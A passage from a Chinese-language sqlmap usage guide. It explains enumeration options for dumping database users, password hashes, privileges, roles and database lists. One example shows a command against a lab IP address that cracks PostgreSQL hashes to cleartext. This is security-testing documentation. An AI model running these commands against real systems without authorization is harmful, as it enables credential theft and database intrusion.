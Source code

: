 当前用户有权限读取包含所有用户的表的权限时，就可以列出所有管理用户。

### 列出并破解数据库用户的hash

参数：–passwords

当前用户有权限读取包含用户密码的彪的权限时，sqlmap会现列举出用户，然后列出hash，并尝试破解。

例子：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --passwords -v 1
[...]
back-end DBMS: PostgreSQL
[hh:mm:38] [INFO] fetching database users password hashes
do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt]
[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
do you want to use common password suffixes? (slow!) [y/N] n
[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
database management system users password hashes:
[*] postgres [1]:
    password hash: md5d7d880f96044b72d0bba108ace96d1e4
    clear-text password: testpass
[*] testuser [1]:
    password hash: md599e5ea7a6f7c3269995cba3927fd0093
    clear-text password: testpass
```

可以看到sqlmap不仅勒出数据库的用户跟密码，同时也识别出是PostgreSQL数据库，并询问用户是否采用字典爆破的方式进行破解，这个爆破已经支持Oracle和Microsoft SQL Server。

也可以提供-U参数来指定爆破哪个用户的hash。

### 列出数据库管理员权限

参数：–privileges

当前用户有权限读取包含所有用户的表的权限时，很可能列举出每个用户的权限，sqlmap将会告诉你哪个是数据库的超级管理员。也可以用-U参数指定你想看哪个用户的权限。

### 列出数据库管理员角色

参数：–roles

当前用户有权限读取包含所有用户的表的权限时，很可能列举出每个用户的角色，也可以用-U参数指定你想看哪个用户的角色。

仅适用于当前数据库是Oracle的时候。

### 列出数据库系统的数据库

参数：–dbs

当前用户有权限读取包含所有数据库列表信息的表中的时候，即可列出所有的数据库。
